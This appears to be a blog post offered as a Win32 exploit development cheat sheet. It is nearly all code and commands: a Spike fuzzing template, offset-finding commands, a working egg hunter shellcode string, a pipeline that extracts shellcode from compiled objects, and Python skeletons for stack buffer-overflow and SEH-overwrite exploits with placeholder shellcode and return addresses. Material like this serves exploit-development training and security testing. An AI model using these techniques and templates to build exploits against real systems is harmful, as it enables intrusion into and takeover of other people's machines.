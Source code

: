 ```yaml
---
layout: post
title: 'Win32 Exploit Development Cheat Sheet'
---
```



### Fuzzing

# Spike Template

```javascript
s_string(“GET “);
s_string_variable(” “);
s_string(” HTTP/1.1\r\n”);
s_string(“Host: “);
s_string_variable(“1.1.1.1\r\n\n”);
```

# Spike command

```javascript
./generic_send_tcp <Target-IP> <Target-Port> <script-file> 0 0
```

# Offset Calculation

```javascript
./pattern_create -l 5000
./pattern_offset -q OVERFLOW_PATTERN
```

### Egg Hunter

```javascript
Egg "w00t" = "\x77\x30\x30\x74"

egghunter= "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x77\x30\x30\x74\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"
```

### Shellcode

# Compiling & Extract Shellcode from a Binary
```javascript
nasm -f elf32 -o myobj.o myfile.nasm

# use "objdump" to extract the shellcode out from the generated object file "myobj.o"
objdump -d myobj.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

# Links

[Writing windows shellcode](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html)

[Linux - Windows shellcode](http://www.vividmachines.com/shellcode/shellcode.html)

[Custom Shellcode without WinExec](http://www.gosecure.it/blog/art/452/sec/create-a-custom-shellcode-using-system-function/)

[Get Shellcode From Binary](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)



### Exploit


## Skeleton

# Without Class

```python
import struct

def p(x):
	return struct.pack("<L", x)

def write(payload):
	f = open("poc.txt", "w")
	f.write(payload)
	f.close()

if __name__ == "__main__":
	# TODO: Change me!
	shellcode = (
	)

	padding = "A" * 666

	# TODO: Change me!
	payload = padding
	payload += p(0xdeadbeef)
	payload += shellcode

write(payload)
```


# With Class

```python
class Exploit:

	def __init__(self, shellcode):
		self._shellcode = shellcode
		self._payload = None

	def __write(self):
		f = open("poc.txt", "w")
		f.write(self._payload)
		f.close()

	def run(self):
		pattern = "A" * 666

		# TODO: Change me!
		self._payload = pattern

		self.__write()

def main():
	# TODO: Change me!
	shellcode = (
	)

	exploit = Exploit(shellcode)
	exploit.run()

if __name__ == "__main__":
     main()
```

## Example

```python
buffer = junk + ret + shellcode

buffer = junk + nseh + seh + shellcode

```
